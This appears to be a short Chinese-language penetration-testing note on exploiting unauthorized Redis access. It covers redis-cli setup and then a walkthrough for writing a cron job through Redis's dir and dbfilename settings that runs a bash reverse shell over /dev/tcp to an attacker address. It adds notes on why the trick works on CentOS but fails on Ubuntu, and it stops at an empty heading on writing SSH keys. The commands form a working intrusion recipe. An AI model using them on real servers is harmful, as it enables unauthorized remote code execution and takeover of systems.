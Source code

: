 # Redis客户端

```
sudo apt update
sudo apt install redis-tools
---
gui
https://github.com/qishibo/AnotherRedisDesktopManager

redis-cli -h 127.0.0.1
```

![](https://img.mi3aka.eu.org/2022/08/a1244184910709658599795a50317189.png)

`redis-cli -h your_host -p 6379 -a "pass" --raw`

`-h` 远程连接的主机

`-p` 远程连接的端口

`-a` 密码

`--raw` 解决中文乱码

# 计划任务反弹shell

```
#反弹shell
set getshell "\n* * * * * bash -i >& /dev/tcp/ip/7000 0>&1\n"
#计划任务路径 ubuntu/debian
config set dir /etc/cron.d
#保存为test文件
config set dbfilename test
#保存
save
```

![](https://img.mi3aka.eu.org/2022/08/8fbe7a6b8aeabf44cd824d24412030fb.png)

![](https://img.mi3aka.eu.org/2022/08/f7263ca7275e6ad8b8fa62877ef8bdba.png)

![](https://img.mi3aka.eu.org/2022/08/e75f82a956bdf1bc2b90f1904ecead3e.png)

>无法正常反弹原因

计划任务中存在乱码，也就是这些乱码导致计划任务执行错误。
这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败，因为自己如果不使用redis写任务计划文件，而是正常向/etc/cron.d目录下写任务计划文件的话，命令是可以正常执行的，所以还是乱码的原因导致命令不能正常执行，而这个问题是不能解决的，因为利用redis未授权访问写的任务计划文件里都有乱码，这些代码来自redis的缓存数据。

# 写入ssh公钥

